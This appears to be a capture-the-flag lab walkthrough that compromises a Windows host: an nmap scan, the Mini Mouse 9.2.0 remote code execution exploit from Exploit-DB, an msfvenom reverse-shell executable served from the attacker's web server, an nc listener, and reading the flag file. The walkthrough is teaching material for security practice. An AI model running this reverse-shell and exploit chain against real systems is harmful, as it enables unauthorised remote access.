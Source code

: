 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=MD5GIbatPg8)|[Download](https://drive.google.com/file/d/1K5_YA76DVtICHst2FlLVjq68dgNkMgRX/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 10:40 +08
Nmap scan report for 10.0.88.33
Host is up (0.017s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 10 Pro 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=mousekatoo
| Not valid before: 2022-11-26T02:39:44
|_Not valid after:  2023-05-28T02:39:44
|_ssl-date: 2022-11-27T02:42:53+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOO
|   NetBIOS_Domain_Name: MOUSEKATOO
|   NetBIOS_Computer_Name: MOUSEKATOO
|   DNS_Domain_Name: mousekatoo
|   DNS_Computer_Name: mousekatoo
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T02:42:39+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8039/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404 OK
|     Server: bruce_wy/1.0.0
|     Access-Control-Allow-Methods: POST,GET,TRACE,OPTIONS
|     Access-Control-Allow-Headers: Content-Type,Origin,Accept
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Credentials: true
|     P3P: CP=CAO PSA OUR
|     Content-Type: text/html
|     Content-Range: bytes 0-0/-1
|_    Content-Length : 4294967295
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
⋮
Host script results:
| smb2-time:
|   date: 2022-11-27T02:42:42
|_  start_date: 2022-11-27T02:39:44
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
| smb-os-discovery:
|   OS: Windows 10 Pro 14393 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: mousekatoo
|   NetBIOS computer name: MOUSEKATOO\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-26T18:42:43-08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.22 seconds
```

# 2. Checking for exploits

Port `8039` returned HTTP data

Searching for the `Server: bruce_wy/1.0.0` information on google leads us to a [Mini Mouse 9.2.0 Path Traversal exploit](https://www.exploit-db.com/exploits/49744)

Path traversal isn't exactly useful, let's search if there are more `mini mouse` exploits

```console
┌──(root㉿kali)-[~]
└─$ searchsploit mini mouse
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Mini Mouse 9.2.0 - Path Traversal           | windows/webapps/49744.txt
Mini Mouse 9.2.0 - Remote Code Execution    | windows/webapps/49743.py
Mini Mouse 9.3.0 - Local File inclusion     | ios/webapps/49747.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE exploit looks interesting, let's try that

☝️ A faster method is to google for `8039 site:www.exploit-db.com`, which will also return the Mini Mouse RCE exploit as a result

# 3. Targeting the Mini Mouse service

Aanalyzing the exploit code shows that it executes a selected payload:

```console
┌──(root㉿kali)-[~]
└─$ searchsploit -m 49743
  Exploit: Mini Mouse 9.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49743
     Path: /usr/share/exploitdb/exploits/windows/webapps/49743.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/49743.py

┌──(root㉿kali)-[~]
└─$ cat 49743.py
⋮
ip = input("target's ip:  ")
lhost = input("local http server ip: ")
name = input("payload file name: ")
url = "http://{}:8039/op=command".format(ip)
⋮
```

# 4. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit and get our shell:

```console
┌──(root㉿kali)-[~]
└─$ python3 49743.py
Traceback (most recent call last):
  File "/home/kali/49743.py", line 12, in <module>
    import jsonargparse
ModuleNotFoundError: No module named 'jsonargparse'

┌──(root㉿kali)-[~]
└─$ pip install jsonargparse
Defaulting to user installation because normal site-packages is not writeable
Collecting jsonargparse
  Downloading jsonargparse-4.17.0-py3-none-any.whl (165 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 165.3/165.3 kB 6.3 MB/s eta 0:00:00
Requirement already satisfied: PyYAML>=3.13 in /usr/lib/python3/dist-packages (from jsonargparse) (5.4.1)
Installing collected packages: jsonargparse
Successfully installed jsonargparse-4.17.0

┌──(root㉿kali)-[~]
└─$ python3 49743.py
target's ip:  10.0.88.33
local http server ip: kali.vx
payload file name: reverse.exe
[+] Retrieving payload
200
[+] got shell!
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.51] 49786
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Mini Mouse>whoami
whoami
mousekatoo\mickey
```

Excellent, we now have shell on the target

# 5. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Program Files (x86)\Mini Mouse>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

09/14/2021  10:46 PM               632 flag.txt.lnk
               1 File(s)            632 bytes

 Directory of C:\Users\Mickey\Desktop

09/14/2021  10:48 PM                73 flag.txt.txt
               1 File(s)             73 bytes

     Total Files Listed:
               2 File(s)            705 bytes
               0 Dir(s)  42,366,476,288 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
the more you hack, the better you become

- i.t security labs (youtube)
```
